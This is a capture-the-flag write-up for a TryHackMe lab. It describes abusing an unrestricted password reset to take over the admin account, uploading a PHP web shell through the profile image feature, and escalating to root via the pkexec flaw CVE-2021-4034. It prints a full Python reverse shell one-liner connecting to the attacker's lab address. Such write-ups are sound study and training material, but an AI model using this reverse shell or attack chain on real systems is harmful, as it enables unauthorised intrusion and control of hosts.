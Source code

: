 * * *
  ### LAB
  ### PLATFORM: THM
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3451f8f0-cdf3-4707-b8c8-5ce5585cd963)


### ENUMERATION

- Rustscan's result

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cdc8bece-c865-440e-9ed9-96f987bcc450)

- Ffuf's result
 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6338d69a-1020-48ed-9942-49549558e7dd)

- v2 reveals an admin page,we can also register a user

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/059f5f25-684b-4a4a-b791-481f828383ff)

- Profile.php reveals the admin username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8545b9fe-3838-48f6-90da-b63f54b69ea4)

- The password reset functionality is vulnerable becuase allows us to reset an account's password without any restrictions e,g sending
a magic link to the email
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2759ec91-fda5-416c-8d96-6b3ec77ef82b)

- Intercept the request with burpsuite and change the username to the admin's name

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/be0a74d8-0fe2-42f7-846f-de43e010888d)

### GETTING SHELL

- One of the features of the admin account is that it allows the admin to upload a profile image,we can abuse that feature to get a shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/09585a99-2045-4c27-bda2-b53fc889ff9f)

- I was able to upload a shell php,the site has no file upload restrictions

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2b3b466b-2771-4304-992e-35c7b955167d)

- After viewing the source code of "v2/profile.php" ,I discovered that it has a special directory for storing uploaded pictures

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/57f2fb70-6694-40c2-8c59-41139d1d8d77)

- We can execute shell commands now

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63f5c7d8-31da-4e80-aef5-255eb8854377)

### INITIAL FOOTHOLD

- Shell with `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.158.229",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9e0cd881-585b-419f-bef9-1e54f28965e6)

### PRIVESC WITH POLKIT AND PKEXEC 0.105.0

- POLKIT has an exploit as stated in `cve-2021-4034`.Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).The exploit works on pkexec ver 0.105

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e6c7dbdc-639d-4f27-bb88-886b98848b05)

- ROOT access

    ![z](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/45f2b139-f5cf-4a7b-bd39-6c46cde6fed9)


